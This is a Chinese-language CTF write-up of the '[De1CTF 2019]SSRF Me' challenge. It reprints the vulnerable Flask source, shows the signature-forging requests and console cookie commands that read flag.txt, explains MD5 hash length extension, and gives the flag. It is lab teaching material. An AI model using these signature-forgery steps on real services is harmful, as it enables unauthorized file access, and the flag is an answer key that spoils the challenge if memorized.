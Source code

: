 # [De1CTF 2019]SSRF Me

[题目地址](https://buuoj.cn/challenges#[De1CTF%202019]SSRF%20Me)

非预期解直接把这道题拉低了好几个档次。

进入网站，一坨代码。因为注释无法利用网站美化，提前看[wp](https://blog.csdn.net/qq_42967398/article/details/103549258)获取源代码。

```python
#! /usr/bin/env python
#encoding=utf-8
from flask import Flask
from flask import request
import socket
import hashlib
import urllib
import sys
import os
import json
reload(sys)
sys.setdefaultencoding('latin1')

app = Flask(__name__)

secert_key = os.urandom(16)


class Task:
    def __init__(self, action, param, sign, ip):
        self.action = action
        self.param = param
        self.sign = sign
        self.sandbox = md5(ip)
        if(not os.path.exists(self.sandbox)):          #SandBox For Remote_Addr
            os.mkdir(self.sandbox)

    def Exec(self):
        result = {}
        result['code'] = 500
        #检查签名
        if (self.checkSign()):
            if "scan" in self.action:  #传进来的action里要有scan
                tmpfile = open("./%s/result.txt" % self.sandbox, 'w')
                resp = scan(self.param) #获取param函数的值，那这个就传flag.txt
                if (resp == "Connection Timeout"):
                    result['data'] = resp
                else:
                    print resp
                    tmpfile.write(resp)
                    tmpfile.close()
                result['code'] = 200
            if "read" in self.action:  #传进来的action里要有read
                f = open("./%s/result.txt" % self.sandbox, 'r')
                result['code'] = 200
                result['data'] = f.read()  #这里面才存储着真正的flag，因此要求action里scan和read都有
            if result['code'] == 500:
                result['data'] = "Action Error"
        else:
            result['code'] = 500
            result['msg'] = "Sign Error"
        return result

    def checkSign(self):
        if (getSign(self.action, self.param) == self.sign):   #这里就是检查传入的md5值和算出来的一不一样
            return True
        else:
            return False

#/geneSign路径，可以get或者post传参
#generate Sign For Action Scan.
@app.route("/geneSign", methods=['GET', 'POST'])
def geneSign():
    param = urllib.unquote(request.args.get("param", ""))  #如果param参数不传，默认值就是空
    action = "scan" #action写死了
    return getSign(action, param) #返回md5值

#/geneSign路径，同样可以get或者post传参
@app.route('/De1ta',methods=['GET','POST'])
def challenge():
    action = urllib.unquote(request.cookies.get("action"))  #这个和sign都是通过cookie传值
    param = urllib.unquote(request.args.get("param", ""))   #这个get或post都行
    sign = urllib.unquote(request.cookies.get("sign"))
    ip = request.remote_addr
    if(waf(param)):
        return "No Hacker!!!!"
    task = Task(action, param, sign, ip)
    return json.dumps(task.Exec()) #目标是让这里dump出flag.txt的内容
@app.route('/')
def index():
    return open("code.txt","r").read()

#上面用到的scan函数是自定义的，别和python自带的搞混了
def scan(param):
    socket.setdefaulttimeout(1)
    try:
        return urllib.urlopen(param).read()[:50]
    except:
        return "Connection Timeout"


#永远不要使用拼接来生成md5值。这里直接拼接全部参数的值生成md5，也是非预期解出现的根本原因
def getSign(action, param):
    return hashlib.md5(secert_key + param + action).hexdigest()


def md5(content):
    return hashlib.md5(content).hexdigest()


def waf(param):
    check=param.strip().lower()
    if check.startswith("gopher") or check.startswith("file"):
        return True
    else:
        return False


if __name__ == '__main__':
    app.debug = False
    app.run(host='0.0.0.0')
```

代码里分析了一波，如果我们在De1ta页面让各个参数的值为：

```
param=flag.txt
action=readscan
sign=？？？，应为secret_key+flag.txt+readscan
```

getSign函数生成签名时把secret_key放进去了，导致我们不能自己算出md5。然而geneSign拼接生成出大问题。虽然里面action固定是scan，但是param可控啊。而且getSign把action放到param后面了，可以利用一下。我们想要读取flag时action等于readscan，就在getSign时这么传：

```
param=flag.txtread
```

然后会生成`secret_key+flag.txtread+scan`的md5值。等一下，这不和De1ta里面需要的md5值一样吗？直接开干。

- http://6f229b7f-6c06-447f-9c45-2b16727fa4e4.node4.buuoj.cn:81/geneSign?param=flag.txt

获取到md5`8fb36efc6bdd64d73e4ff92d145f9abb`。这个值每个人都会不一样。现在去拿flag。

- http://6f229b7f-6c06-447f-9c45-2b16727fa4e4.node4.buuoj.cn:81/De1ta?param=flag.txt

cookie的添加用chrome控制台搞定。

```js
document.cookie="action=readscan";
document.cookie="sign=8fb36efc6bdd64d73e4ff92d145f9abb";
```

这题预期解是[MD5hash长度扩展攻击](https://joychou.org/web/hash-length-extension-attack.html)。

- 效果：预测md5(salt+message+padding+append)值
- 条件：以下内容需要提前得知
  > md5(salt+message)的值
  > message内容
  > salt+message长度

原理说难也不难，关键在于了解md5算法内部的实现。简单提一嘴，里面有4个magic number。这几个magic number与最终生成的md5值息息相关。比如`21232f297a57a5a743894a0e4a801fc3`这个md5值，算法内部生成完成的那一刻，4个magic number分别是：

```
A=0x292f2321
B=0xa7a5577a
C=0xe4a8943
D=0xc31f804a
```

换个端序拼在一起就是md5值了。另外一个重要的点，在于md5加密信息时会把原文分成若干个信息块，每块长64字节。不足64字节的就要padding。padding的规则是，在最末一个字节之后补充0x80，其余的部分填充为0x00，padding最后的8字节用来表示需要哈希的消息长度。一个块会更新一轮magic number，更新后的Magic number被用于计算下一个块的md5值。

现在我们知道了md5(salt+message)的值，就能推断出md5(salt+message)时的magic number。因为md5算法实现是公开的，直接把初始值设定为推断出来的magic number，然后加密自己的东西，不就能得到和正常md5加密一样的结果了吗？达成这点很简单，把要加的内容和原始值在一起做个padding，利用推断出来的magic number加密一轮，完成。

这里只是简单提了一下，具体还是要看文章。[这篇](http://blog.chinaunix.net/uid-27070210-id-3255947.html)讲的也很好。建议直接用工具：[hushpump](https://github.com/bwall/HashPump)。

## Flag
> flag{407ea613-9b44-4e39-9405-1d5d63bc7056}